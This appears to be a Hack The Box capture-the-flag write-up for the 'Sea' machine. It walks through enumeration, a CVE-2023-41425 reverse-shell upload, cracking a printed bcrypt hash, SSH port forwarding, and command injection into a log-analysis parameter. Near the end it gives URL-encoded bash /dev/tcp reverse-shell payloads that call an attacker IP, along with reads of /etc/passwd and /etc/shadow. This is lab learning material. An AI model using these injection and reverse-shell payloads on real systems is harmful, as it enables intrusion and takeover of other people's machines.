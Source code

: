 # Sea

<details>
<summary><strong>Summary</strong></summary>
The first hackthebox machine I've done. This writeup isn't as good because of the 
Nmap scan the machine and find a website. Use gobuster/feroxbuster to find a large amount of pages left over on the website. Scan through the pages to find an upload page where there is a script uploading vulnerability.
Check the files in the apache directory and the rest of the program files for information, also checking the network interfaces. Find a hash for a user. Set up a reverse proxy and route traffic through the first machine with a shell to a remote website on the network. 
Login to the remote machine on the browser using the proxy. Catch the request from the remote machine to the system logs using Burp. Send it to the repeater and use it to get a reverse shell on the machine as root.

<summary><strong>What I Learned</strong></summary>
<body>

1. This is my first HTB box, so I learned a lot about general enumeration and process as a whole while working on it
2. Learned about Feroxbuster and which directories are bust-able

</body>
</details>

## Writeup

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Use gobuster to find files on the webserver  
`gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Find a registration page on the machine
![alt text](images/image9.png)

Find the apache server on `http://10.129.194.230:50000/etc/apache2

Get a reverse shell file onto the target machine using [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425)

### Start a netcat listener and upload the corrupted CVE file using the exploit file

Find where directory for the site configuration is in sites-enabled

-
- `DocumentRoot category in Directory`
  - `/etc/passwd`

Found BCRYPT hash in : `/var/www/sea/data`. Decrypt it using hashcat.  
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q : mychemicalromance`

Grep for every line that contains users  
`cat /etc/passwd | grep sh$`

Find users, then switch to them (password required)  
`su - <Username>`

Check the filesystem table  
`Hidepid=2` -> cannot see processes run by other users  
 `cat /etc/fstab`

What processes are running?  
Ps -> what processes are running | e -> every process (even ones not run by user) | f -> full format listing | forest -> displays in tree-like hierarchy  
`ps -ef --forest`

What ports are listening?

- Ss -> socket statistics | l -> only listening sockets. | n -> numerical addresses | t -> TCP connections | p -> show process id
- `ss -lntp`
- To check the ports that are running
  - `cd /etc/`
  - `grep -R <PORT_NUM> . 2>/dev/null`

Get the service command and check it  
`cat ./systemd/system/multi-user.target.wants/monitoring.service`
![alt text](images/image.png)

Cannot access root/monitoring file, but can set up port forward and access it
![alt text](images/image-1.png)

Setup an ssh listener locally on port 8081. Forward it from 8081 to 127.0.0.1 locally and direct it to 8080 on the other end (target machine)

- `ssh -L 8081:127.0.0.1:8080 amay@<RHOST>`

Then you can access 127.0.0.1:8082 on browser with login

Click the analyze button to get the logs. Send them to the Burp Repeater

In the kali cli, curl the server to look for suspicious traffic

- `curl <IP>/random_text`

Check to see if you can inject php code into log file

- Set up a proxy and use it to try to run a command
- KALI -> `curl 10.129.62.179/contretemps -x http://localhost:8080`
- Intercept it with Burp, change to a more suspicious command agent

![alt text](images/image-2.png)
![alt text](images/image-3.png)
![alt text](images/image-5.png)

Try to get other files

- `/root/root.txt`

- `/etc/passwd`
  - `/etc/shadow`

Try to run a command

- `/root/root.txt;id;%23 %23 is '#'`
- It works, so get a reverse shell
  - `/root/root.txt;bash -c 'bash -i >&/dev/tcp/<KALI_IP>/<PORT> 0>&1*;%23`
  - URL encode with Ctrl + U

Use nohup -> shells persist after the terminal closes  
`log_file=root/root.txt;bash+-c+'nohup+bash+-i+>%26/dev/tcp/10.10.14.9/9001+0>%261+%26';#&analyze_log=`  
Get root access

![alt text](images/image-4.png)
